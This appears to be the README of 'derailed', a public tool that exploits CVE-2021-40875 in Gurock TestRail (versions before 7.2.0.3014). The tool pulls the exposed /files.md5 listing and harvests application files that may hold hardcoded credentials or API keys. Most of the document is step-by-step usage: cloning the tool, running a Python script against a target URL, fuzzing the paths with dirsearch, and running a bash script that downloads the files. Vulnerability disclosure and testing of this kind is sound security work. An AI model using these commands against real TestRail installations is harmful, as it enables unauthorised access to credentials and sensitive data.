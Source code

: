 # derailed
CVE-2021-40875: Improper Access Control in Gurock TestRail versions < 7.2.0.3014 resulted in sensitive information exposure. A threat actor can access the /files.md5 file on the client side of a Gurock TestRail application, disclosing a full list of application files and the corresponding file paths. The corresponding file paths can be tested, and in some cases, result in the disclosure of hardcoded credentials, API keys, or other sensitive data.

# Credits
John Jackson
Twitter: https://twitter.com/johnjhacking

SickCodes
Twitter: https://twitter.com/sickcodes


# Summary
Why use this script? Why not just build a standard list of sensitive files? 
Building a custom list would certainly work, however, in many cases it was observed that the TestRail application had custom files - which would be good to check during the recon phase. If you want, you can run the python script to grab a custom list of files to check with dirsearch. This is a more manual method if you're not interested in downloading any of the files, otherwise, just run the bash script to do everything for you.

# Usage

Python Script
```
git clone https://github.com/SakuraSamuraii/derailed.git
cd ./derailed
python3 derailed.py
---> give it the url of the target without the md5 path (https://foo.com)
```
Run dirsearch or your preferred fuzzing tool against the list. You'll noticed that a lot of the files a fairly standard in size (0B/15B or 25B/31B/32MB -- avoid those files as they are likely of no use to you)
```
sudo dirsearch -w derailed.txt -u 'https://foo.com' -x 300,301,302,303,304,305,400,401,402,403,404,405,406,500,501,502,503,504 > paths.txt
```

Running the Bash Script (Note - will download the files into an output folder, proceed with caution)
```
bash derailed.sh 'https://target'

```

